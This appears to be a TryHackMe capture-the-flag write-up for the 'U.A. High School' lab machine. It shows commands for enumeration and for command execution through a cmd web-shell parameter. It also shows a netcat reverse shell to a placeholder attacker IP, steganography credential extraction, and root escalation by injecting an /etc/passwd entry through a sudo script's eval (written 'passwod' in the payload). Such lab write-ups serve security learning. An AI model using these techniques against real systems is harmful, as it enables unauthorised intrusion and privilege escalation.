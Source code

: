 # U.A. High School - TryHackMe Writeup

**TL;DR:** Web fuzz → cmd parameter RCE → www-data → stego creds → deku → sudo feedback.sh → command injection → root

## Target
- Machine: `myheroacademia.thm`
- Date: 2025-6-13
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:
```bash
nmap -sV -sC -T4 -Pn myheroacademia.thm     


22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

2. Directory Discovery:

```bash
gobuster dir -u http://myheroacademia.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php


/assets               (Status: 301) [Size: 311]
```

```bash
gobuster dir -u http://myheroacademia.thm/assets/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.css,.txt


/images               (Status: 301) [Size: 318]
index.php            (Status: 200) [Size: 0]
styles.css           (Status: 200) [Size: 2943]
```


#### Web Shell Discovery
Parameter fuzzing revealed a command injection vulnerability:
```bash
ffuf -u http://myheroacademia.thm/assets/index.php?FUZZ=ls -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -fs 0 -mc all
```
Vulnerable Parameter: `cmd`

![web shell discovery](images/fuff.png)



#### Command Execution Verification

Testing the discovered parameter:
```bash
# Test command execution
curl 'http://myheroacademia.thm/assets/index.php?cmd=id'

# Base64 encoded response received:
# dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK

# Decode the response
echo 'dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK' | base64 -d

# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Revese Shell:

```bash
# Setup listener
nc -lnvp 4444

# Execute reverse shell
curl 'http://myheroacademia.thm/assets/index.php?cmd=busybox%20nc%20YOUR_IP%204444%20-e%20bash'

# Upgrade shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### Lateral Movement

Hidden Content Discovery:
```bash
cat /var/www/Hidden_Content/passphrase.txt 
# QWxsbWlnaHRGb3JFdmVyISEhCg==

echo  'QWxsbWlnaHRGb3JFdmVyISEhCg' | base64 -d 
# AllmightForEver!!!

```

Steganography Analysis:
```bash
# Transfer image to attacker machine
cd /var/www/html/assets/images/
python3 -m http.server 8000

#on Attack machine:
wget http://myheroacademia.thm:8000/oneforall.jpg

# Extract hidden data
steghide extract -sf oneforall.jpg
# Passphrase: AllmightForEver!!!

#Credentials Extract
cat creds.txt

Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:[REDACTED]
```

## User flag

Connect via ssh and get the flag:
```bash
ssh deku@myheroacademia.thm

#deku@myheroacademia.thm:~$ id
uid=1000(deku) gid=1000(deku) groups=1000(deku)

#get the Flag
cat user.txt 

#THM{[REDACTED]}

```
## Root flag

Sudo Privilege Discovery:
```bash
sudo -l
[sudo] password for deku: 


# User deku can run the following commands as root:
    (ALL) /opt/NewComponent/feedback.sh
```

Analyse the script:
```bash
ls -la /opt/NewComponent/feedback.sh

#-r-xr-xr-x 1 deku deku 684 Jan 23  2024 /opt/NewComponent/feedback.sh
```
```bash
cat feedback.sh 
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

```
#### Analysis

The script has:

-   Owner: deku:deku
-   Permissions: r-xr-xr-x (555) - readable and executable by everyone, but not writable
-   Command injection vulnerability: The eval "echo $feedback" line is dangerous

The script attempts to filter out dangerous characters but misses some critical ones:
```bash
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    eval "echo $feedback"  # VULNERABLE!
```


#### Exploitation

```bash
# Create password hash for new root user
mkpasswd -m md5crypt
# Enter password: 1337
# Generated hash: $1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1
```

formatting:
`r00t:$1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1:0:0:r00t:/root:/bin/bash`

```bash
# Execute exploitation
sudo /opt/NewComponent/feedback.sh

# Payload
r00t:$1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1:0:0:r00t:/root:/bin/bash >> /etc/passwod 
```
![Exploit feedback.sh](images/r00t.png)

Root Access Achievement:
```bash
su r00t
Password: 1337

 
root@myheroacademia.thm:/opt/NewComponent# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag:
```bash
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{[REDACTED]}

```

